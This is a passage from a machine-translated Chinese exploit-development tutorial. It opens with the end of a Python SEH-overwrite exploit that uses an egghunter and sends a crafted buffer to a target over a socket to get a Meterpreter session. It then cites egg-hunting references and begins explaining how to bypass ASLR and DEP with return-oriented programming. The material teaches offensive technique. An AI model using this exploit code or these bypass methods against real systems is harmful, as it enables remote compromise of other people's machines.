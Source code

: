 ```
        buffer1 += nop * 2 + "\x90" * 360
        buffer1 += nseh + seh # 8
        buffer1 += "\x90" * 6 #
        buffer1 += egghunter
        buffer1 += nop
        buffer1 += tag
        buffer1 += buffer
        buffer1 += "\x90" * (3504 - len(buffer))
        buffer1 += "\r\n\r\n"
        sock=socket.socket(socket.AF_INET, socket.SOCK_STREAM)
        connect=sock.connect((target_address,target_port))
        sock.send(buffer1)
        print "Sent!!"
        sock.close()
```

10.  我们继续并将其保存为`script.py`并使用`python script.py`运行它。

11.  而且，我们应该有我们的计量员会议等着我们。

我们编写的漏洞攻击代码可能不会在每个系统上以完全相同的方式工作，因为根据操作系统版本、软件版本等存在多个依赖项。

# 另见

*   [https://www.corelan.be/index.php/2010/01/09/exploit-writing-tutorial-part-8-win32-egg-hunting/](https://www.corelan.be/index.php/2010/01/09/exploit-writing-tutorial-part-8-win32-egg-hunting/)
*   [http://www.fuzzysecurity.com/tutorials/expDev/4.html](http://www.fuzzysecurity.com/tutorials/expDev/4.html)

# ASLR 和 NX 旁路概述

**地址空间布局随机化**（**ASLR**于 2001 年由 PaX project 作为 Linux 补丁引入，并集成到 Windows Vista 和更高版本的操作系统中。它是一种内存保护，通过随机化内存中加载可执行文件的位置来防止缓冲区溢出。Windows Vista 上的 Internet Explorer 7 还引入了**数据执行防止**（**DEP**或**不执行**（**NX**）功能，它通过阻止内存中的代码执行（标记为不可执行）来帮助防止缓冲区溢出。

# 怎么做。。。

我们需要首先避开 ASLR。基本上有两种方式可以绕过 ASLR：

1.  我们寻找内存中加载的任何反 ASLR 模块。我们将有一个固定位置的任何模块的基址。从这里，我们可以使用**面向返回的编程**（**ROP**方法。我们将基本上使用代码的一小部分，然后是一条返回指令，并链接所有内容以获得所需的结果：
